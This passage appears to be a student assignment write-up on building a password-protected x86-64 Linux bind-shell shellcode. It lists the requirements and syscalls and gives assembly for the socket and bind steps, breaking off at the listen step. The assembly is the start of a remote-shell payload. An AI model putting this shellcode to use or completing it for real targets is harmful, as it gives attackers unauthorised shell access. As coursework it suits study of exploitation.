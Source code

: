 ## Assignment #1
## Bind_Shell_TCP
===
### Introduction
---

Requirements for this assignment are to create a Shell_Bind_TCP shellcode that: 

 1. Listens on a specific port 
 2. Requires a password 
 3. If the password is correct, then Exec Shell is executed 
 4. Also, the NULL bytes (0x00) must be removed from the shellcode 

To build the shellcode, we is required the use of the linux sockets and do the following steps: 

 1. Create a socket 
 2. Bind the socket to a port 
 3. Start listenning for connections 
 4. Accept incoming connections 
 5. Ask, read, and validate the password 
 6. Duplicate `SDTIN`, `STDOUT` and `STDERR` to the socket descriptor 
 7. Execute /bin/sh for the incoming and validated conection 

In case the password is not correct, the shellcode will exit with a Segmentation Fault. The shellcode won’t care on how the program terminates. This makes sense as shellcode will be smaller in size and really does not matter how it exits. 

For Linux Sockets Programming, the following System calls are required on this assignment: 

```c
int socket(int domain, int type, int protocol); 
int bind(int sockfd, const struct sockaddr *addr, 
         socklen_t addrlen); 
int listen(int sockfd, int backlog); 
int accept(int sockfd, struct sockaddr *addr, 
           socklen_t *addrlen); 
int close(int sockfd); 
```
To duplicate the standard input, output and error, `dup2()` call will be used: 

```c
int dup2(int oldfd, int newfd); 
```

And to execute `/bin/sh`, will use the `execve()` call: 

```c
int execve(const char *filename, 
           char *const argv[], 
           char *const envp[]); 
```
### ASM Implementation
----

Will explain how we implement each step mentioned before into ASM, with the idea to make the code easy to understand. No enphasys has been put into removing NULLs and make the shellcode small (this is done later).

#### Create a Socket

```asm
; sock = socket(AF_INET, SOCK_STREAM, 0) 
mov rax, 41                     ; syscall number 
mov rdi, AF_INET                ; IPv4 
mov rsi, SOCK_STREAM            ; TCP connection 
mov rdx, 0                      ; IP Protocol 
syscall 
; Save the socket_id value in RDI for future use 
mov rdi, rax                    ; value returned in RAX by syscall  
```
This is the first step required for sockets, open the socket. 
To execute the sys_socket system call the arguments will have to be placed in the corresponding registers: 

 - RAX <- 41 : Syscall number. 
 - RDI <- 2 : Domain parameter. AF_INET is for IPv4. 
 - RSI <-  1 : Type parameter. SOCK_STREAM means connection oriented TCP. 
 - RDX <- 0 : Protocol. IPPROTO_IP means it’s an IP protocol 

The syscall will return a file descriptor in RAX that is saved into RDI. This saves the socket_id for later use in the code

#### Bind the Created Socket to a Port

```asm
; Prepare (struct sockaddr *)&server 
;       RSP will point to the struct address 
xor rax, rax 
push rax                        ; bzero(&server.sin_zero, 8) 

mov dword [rsp - 4], INADDR_ANY 
mov word [rsp - 6], PORT 
mov word [rsp - 8], AF_INET 
sub rsp, 8                      ; Update RSP with right value 

; bind(sock, (struct sockaddr *)&server, sockaddr_len) 
;       RDI already has the sock_id 
mov rax, 49                     ; syscall number 
mov rsi, rsp                    ; @ to (struct sockaddr * &server) 
mov rdx, 16                     ; length of the sockaddr struct 
syscall  
```
This part irequires two steps:

- Create the `struct sockaddr` structure. Stack is used to store the values of the struct:
 - Values are placed on the stack
 - Stack Pointer (RSP) is updated with the new address
- Call the `bind` syscall. Values for parameters are placed into the registers:
 - RAX: Syscall number (49)
 - RDI: Socket descriptor. Already has the value from previous point
 - RSI: Address of the struct. This value is in RSP
 - RDX: The lengh of the sockaddr struct. It's 16 bytes

#### Listen for Incoming Connections









